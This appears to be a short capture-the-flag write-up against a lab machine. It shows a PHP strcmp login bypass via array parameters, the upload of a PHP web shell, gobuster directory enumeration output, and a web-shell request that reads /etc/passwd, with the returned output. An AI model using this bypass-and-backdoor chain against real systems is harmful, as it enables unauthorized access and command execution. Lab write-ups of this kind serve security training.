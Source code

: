 ## strcmp() problem

references: [link](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016)

```http
POST /login/login.php HTTP/1.1

username[]=%22%22&password[]=%22%22

HTTP/1.1 302 Found
Location: /upload.php
```

## file upload vulnerabilities => reverse shell

upload: `/usr/share/webshells/php/simple-backdoor.php`

find upload location using gobuster => `/_uploaded`:

```bash
└─$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.129.95.184 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.95.184
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/05 14:39:08 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/_uploaded            (Status: 301) [Size: 318] [--> http://10.129.95.184/_uploaded/]

```

check:

```http
GET /_uploaded/simple-backdoor.php?cmd=cat+/etc/passwd HTTP/1.1

HTTP/1.1 200 OK

<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```
